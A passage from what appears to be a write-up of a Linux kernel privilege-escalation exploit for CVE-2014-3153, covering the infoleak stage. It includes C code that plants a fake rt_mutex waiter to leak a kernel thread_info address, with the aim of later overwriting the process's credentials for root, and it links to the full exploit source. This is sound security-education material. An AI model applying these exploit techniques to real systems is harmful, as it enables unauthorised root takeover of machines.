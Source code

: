 
# Kernel Infoleak
Our next goal would be to leak an address that would help us target the [`task_struct`] of our process which contains its [`cred`]
so that we can overwrite it later to gain `root` privileges.

The way we go about doing it is using a fake waiter and when we'd attempt to lock the futex once again,
another waiter would be added to the waiters list which would result in writing to the adjacent nodes which would be under our control.
Once that happens, we'd be able to inspect the kernel address from userspace via the fake waiter list nodes.

```c
#define DEFAULT_PRIO 120
#define THREAD_INFO_BASE 0xffffe000

struct rt_mutex_waiter fake_waiter, leaker_waiter;
pthread_t corrupter;

void link_fake_leaker_waiters()
{
    fake_waiter.list_entry.node_list.prev = &leaker_waiter.list_entry.node_list;
    fake_waiter.list_entry.prio_list.prev = &leaker_waiter.list_entry.prio_list;
    fake_waiter.list_entry.prio = DEFAULT_PRIO + 1;
}

void leak_thread_info()
{
    link_fake_leaker_waiters();
    assert(!pthread_create(&corrupter, NULL, lock_pi_futex, NULL));

    sleep(1);
    corrupter_thread_info = (struct thread_info *)((unsigned int)leaker_waiter.list_entry.prio_list.next & THREAD_INFO_BASE);
    printf(USERLOG "Corrupter's thread_info @ %p\n", corrupter_thread_info);
}
```

Let's first address what's called a "Thread Info".  
[`thread_info`] is a thread descriptor that is held within the kernel and is placed on the stack's address space.
For each thread that we create using `pthread_create()` a new [`thread_info`] is generated in the kernel.

```c
struct thread_info {
	struct task_struct	*task;		/* main task structure */
	struct exec_domain	*exec_domain;	/* execution domain */
	__u32			flags;		/* low level flags */
	__u32			status;		/* thread synchronous flags */
	__u32			cpu;		/* current CPU */
	int			preempt_count;	/* 0 => preemptable,
						   <0 => BUG */
	mm_segment_t		addr_limit;
	struct restart_block    restart_block;
	void __user		*sysenter_return;
	unsigned int		sig_on_uaccess_error:1;
	unsigned int		uaccess_err:1;	/* uaccess failed */
};
```


[challenge]: https://github.com/elongl/pwnable.kr/tree/master/syscall
[Linux Kernel Development]: https://books.google.co.il/books/about/Linux_Kernel_Development.html?id=3MWRMYRwulIC
[Linux Kernel Image]: https://i.imgur.com/vJP3B8i.png
[CVE-2014-3153]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3153
[man futex(2)]: https://man7.org/linux/man-pages/man2/futex.2.html
[man futex(7)]: https://man7.org/linux/man-pages/man7/futex.7.html
[Priority Inheritance]: https://en.wikipedia.org/wiki/Priority_inheritance 
[`plist`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/plist.h
[Priority List Image]: https://i.imgur.com/IBxItuz.png
[bug fix commit]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=e9c243a5a6de0be8e584c604d353412584b592f8
[summary of them]: https://github.com/elongl/CVE-2014-3153/blob/master/notes.md#data-structures
[`rt_mutex_start_proxy_lock()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L962
[`rt_mutex_finish_proxy_lock()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L1033
[`task_blocks_on_rt_mutex()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L405
[`futex_requeue()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L1264
[`futex_wait_requeue_pi()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L2285
[`futex_proxy_trylock_atomic()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L1202
[`futex_lock_pi_atomic()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L718
[Bugged Waiter Image]: https://i.imgur.com/Dael9DR.png
[Recap Image]: https://i.imgur.com/0qp366z.png
[atomically]: https://wiki.osdev.org/Atomic_operation
[`cred`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/cred.h#L102
[capabilities]: https://man7.org/linux/man-pages/man7/capabilities.7.html
[GCC releases]: https://gcc.gnu.org/releases.html
[Linux kernel version]: https://en.wikipedia.org/wiki/Linux_kernel_version_history
[futex wrappers]: https://github.com/elongl/CVE-2014-3153/blob/master/futex.c
[Kernel Crash Video]: https://youtu.be/DxPt1MNPDpY
[`___sys_sendmsg()`]: https://elixir.bootlin.com/linux/v3.11.4/source/net/socket.c#L1976
[`man sendmmsg(2)`]: https://man7.org/linux/man-pages/man2/sendmmsg.2.html
[Waiter Overwritten Image]: https://i.imgur.com/npV3oAT.png
[`task_struct`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/sched.h#L1027
[`thread_info`]: https://elixir.bootlin.com/linux/v3.11.4/source/arch/x86/include/asm/thread_info.h#L25
[Crafted Waiter Image]: https://i.imgur.com/5HtvkBq.png
[New Waiter Image]: https://i.imgur.com/uAJDaJF.png
[`leak_thread_info()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L138
[`current_thread_info()`]: https://elixir.bootlin.com/linux/v3.11.4/source/arch/x86/include/asm/thread_info.h#L174
[`escalate_priv()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L123
[`escalate_priv_sighandler`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L95
[`sigaction()`]: https://man7.org/linux/man-pages/man2/sigaction.2.html
[`clone()`]: https://man7.org/linux/man-pages/man2/clone.2.html
[`kmemcpy()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L40
[exploit]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c